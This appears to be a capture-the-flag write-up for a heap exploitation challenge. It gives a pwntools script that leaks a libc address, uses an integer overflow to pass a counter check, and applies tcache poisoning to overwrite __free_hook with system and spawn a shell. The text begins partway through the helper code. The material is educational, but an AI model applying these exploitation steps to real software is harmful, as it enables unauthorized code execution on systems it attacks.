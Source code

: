 ```python
    p.sendlineafter('>> ','1')
    p.sendlineafter(': ',str(n))
    p.sendlineafter(':',str(c))
def free():
    p.sendlineafter('>> ','2')
def edit(idx,size,data):
    p.sendlineafter('>> ','3')
    p.sendlineafter(': ',str(idx))
    p.sendlineafter(': ',str(size))
    p.sendline(data)
def view(idx):
    p.sendlineafter('>> ','4')
    p.sendlineafter(': ',str(idx))
def main():

  pause()
  p.interactive()

if __name__ == "__main__":
    main()

```

 **NB : I PATCHED THE BINARY USING PWNINIT**

#### First Step We Leak Libc

```python
    alloc(5,1)#0 1 2 3 4 # We Allocate 5 chunks of large size so when freed it will contain fd and bk pointers which are main_arena addressess.
    alloc(1,3)#5 Consolidation Prevention
    alloc(int(2**32) - 6 + 3,4) # Integer Overflow Attack ( to satisfy our condition about counter1 != counter2 && counter1 < counter2 )
    time.sleep(20) 
    free()  # GOES TO TCACHE BIN 
    free()  # THIS IS WHERE OUR CHUNK THAT HAVE LIBC ADDR 
    view(4)
    base = u64(p.recv(6).ljust(8,b"\x00")) - 0x1ebbe0
    log.success('LIBC BASE => ' + hex(base))
    pause()
```
#### Second Step We do some Calculation To Pop A Shell
```python
    system = base + libc.sym['system'] # Target to execute is system("/bin/sh");
    free_hook = base + libc.sym['__free_hook'] # we are going to overwrite free hook with system address
```

#### Final Step Create Overlapping Chunks To Perfom Tcache Poisining
```python
    alloc(4,2)
    free()
    free()
    time.sleep(0.5)
    edit(6,128,p64(free_hook))
    alloc(2,2)
    edit(7,128,p64(system))
    alloc(2,1)
    edit(9,128,b"/bin/sh\x00")
```
Now free hook is succesfully overwritten with system address 
we allocated a chunk and we put our string /bin/sh in it 
now trigger the shell we just free the last chunk which contains our string so instead of free(note[9]) it just goes like system(note[9]) which is system("/bin/sh\x00");